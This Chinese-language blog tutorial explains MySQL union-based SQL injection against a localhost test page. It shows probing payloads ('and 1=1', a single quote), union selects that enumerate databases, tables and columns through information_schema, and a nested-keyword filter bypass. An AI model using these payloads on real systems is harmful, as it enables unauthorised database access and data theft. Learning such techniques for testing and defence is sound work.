 ```yaml
---
title: mysql注入
date: 2016-12-01T23:11:44+08:00
draft: false
toc: false
comments: true
aliases:
  - /detail/31
  - /detail/31/
tags:
  - sql
---
```


### 0、样例链接
http://127.0.0.1/sql.php?id=1

### 1、步骤
1. 查看是否存在注入点
2. 使用`union`sql关键字来获取数据
3. 通过查询information_schema数据库元数据如存在什么数据库、什么表、什么数据
4. 联合union和select获取数据
5. 若存在sql关键字检测替换可以：selselectect


### 2、查看是否存在注入点
#### （1）添加单引号`'`
http://127.0.0.1/sql.php?id=1' 报错
原理：
```sql
select * from user where id=1'
```

#### （2）添加 `and 1=1` `' and '1'='1`、和 `and 1=2`、 //返回不同页面

* http://127.0.0.1/sql.php?id=1 and 1=1
原理：
```sql
select * from user where id=7 and 1=1;
```

* http://127.0.0.1/sql.php?id=1 and 1=2
原理：
```sql
select * from user where id=7 and 1=2;
```

* http://127.0.0.1/sql.php?username=b' and '1'='1
原理：
```sql
#正常语句
select * from user where username='b';
注入后语句
select * from user where username='b' and '1'='1';
```


#### （3）使用`or 2>1`和`or 1>2`返回不同页面
略


### 3、查看`union`查看`information_schema`数据库
#### （1）union试探
http://127.0.0.1/sql.php?id=7 union select 1, 'a', 1, 1, 1
原理：
```sql
select * from user where id=7 union select 1, 'a', 1, 1, 1;
```

#### （2）查看有几个数据库
http://127.0.0.1/sql.php?id=7 union select 1,SCHEMA_NAME, 1, 1, 1 from  information_schema.SCHEMATA
```原理
select * from user where id=7 union select 1,SCHEMA_NAME, 1, 1, 1 from  information_schema.SCHEMATA;
```

#### （3）查看数据库中有几张表
查看test数据库表信息
http://127.0.0.1/sql.php?id=7 union select 1,TABLE_NAME, 1, 1, 1 from  information_schema.TABLES where TABLE_SCHEMA='test'
原理
```sql
select * from user where id=7 union select 1,TABLE_NAME, 1, 1, 1 from  information_schema.TABLES where TABLE_SCHEMA='test';
返回
+----+----------+------+------+--------+
| id | username | age  | sex  | salary |
+----+----------+------+------+--------+
|  7 | b        |   18 | 3    |   NULL |
|  1 | user     |    1 | 1    |   1.00 |
+----+----------+------+------+--------+
```

#### （4）查看表中的字段
查看test数据库的user表的字段
http://127.0.0.1/sql.php?id=7 union select 1,COLUMN_NAME, 1, 1, 1 from  information_schema.COLUMNS where TABLE_SCHEMA='test' and TABLE_NAME='user'
原理
```sql
select * from user where id=7 union select 1,COLUMN_NAME, 1, 1, 1 from  information_schema.COLUMNS where TABLE_SCHEMA='test' and TABLE_NAME='user';
```


### 4、查看指定表的数据即可
略，类似上




